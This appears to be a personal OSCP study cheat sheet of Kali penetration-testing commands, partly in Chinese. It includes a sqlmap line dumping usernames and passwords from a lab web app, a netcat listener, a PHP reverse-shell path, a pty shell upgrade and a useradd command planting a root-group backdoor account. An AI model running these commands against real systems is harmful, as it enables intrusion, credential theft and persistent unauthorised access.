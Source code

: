 # OSCP kail skills

## curl
$ curl -X OPTIONS -v http:<IP>

## dirb
 $dirb http://192.168.2.196
 
## md5 hash
https://hashes.com/en/decrypt/hash
 
## nc
$ nc -lvp 4444

## nikto 
> nikto是一個用來發現、檢查網頁伺服器全問題的工具。對目標主機會使用大量請求

$ nikto -h http://<IP>

## searchsploit
 $ searchsploit PACKAGE_NAME
 $ searchsploit -m NUMBER (下載)
     ![](https://i.imgur.com/U1TY2wQ.png)

## sqlmap
 $ sqlmap -u "http://172.20.10.5/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level=3 -risk=3 -D jabcd0cs -T odm_user -C id,username,password --dump --batch


 
## 偷藏 (php 反彈 shell)

* kali 機底下:
 `$/usr/share/webshells/php/php-reverse-shell.php`

 
 
## 提權 
 $python -c 'import pty; pty.spawn("/bin/bash")'
 
 $python -c "import crypt: print crypt.crypt('password','password')"

 $sudo useradd -m -G root,sudo -p papAq5PwY/QQM vulnhubroot

###### tags:  `command` `OSCP`